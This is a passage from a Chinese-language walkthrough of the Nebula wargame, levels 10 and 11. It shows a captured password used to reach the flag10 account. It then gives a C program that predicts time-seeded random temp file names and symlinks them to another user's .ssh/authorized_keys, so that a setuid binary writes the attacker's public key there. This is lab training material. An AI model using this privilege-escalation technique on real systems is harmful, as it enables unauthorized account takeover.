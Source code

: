 ```bash
level10@nebula:~$ nc -lk 18211
.oO Oo.
.oO Oo.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

拿到密码就能登陆了

```bash
level10@nebula:~$ su flag10
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

# Level 11

看到这题里的 system() 就想逆向出 encoding/decoding 注入命令。之后才发现 setuid bin 里的 system() 用的还是实际调用者的权限信息。碰壁后到网上搜答案，原来是利用可预测的 random 来将公钥写入 .ssh/authorized_keys 文件。毕竟 TIME(NULL) 单位只是秒，粒度很大。

预测随机值的（**脏**）代码，给之后10s内生成的随机path都设为指向 authorized_keys 的软链：

```c
#include <stdio.h>
#include <stdlib.h>
void getrand(char *pid)
{
  char tmp[4] = "/tmp";
  int fd;
  char path[1024];
  int i;

  for (i = 0;i < 10 ;i++ ) {
    srandom(time(NULL)+i);

    sprintf(path, "ln -s /home/flag11/.ssh/authorized_keys %s/%s.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));
    system(path);
  }
}

void main(int argc, char **argv) {
  getrand(argv[1]);
}
```

把 setuid bin 跑起来等 stdin 的时候，拿到 pid 就可以跑上面的程序。

然后把公钥用明文送给 setuid bin 的 stdin 就可以登陆了。

这题陷阱不少， length 在 [2,1023] 之间都是无效的，必定会触发报错，所以还要把公钥多复制几遍充字数。
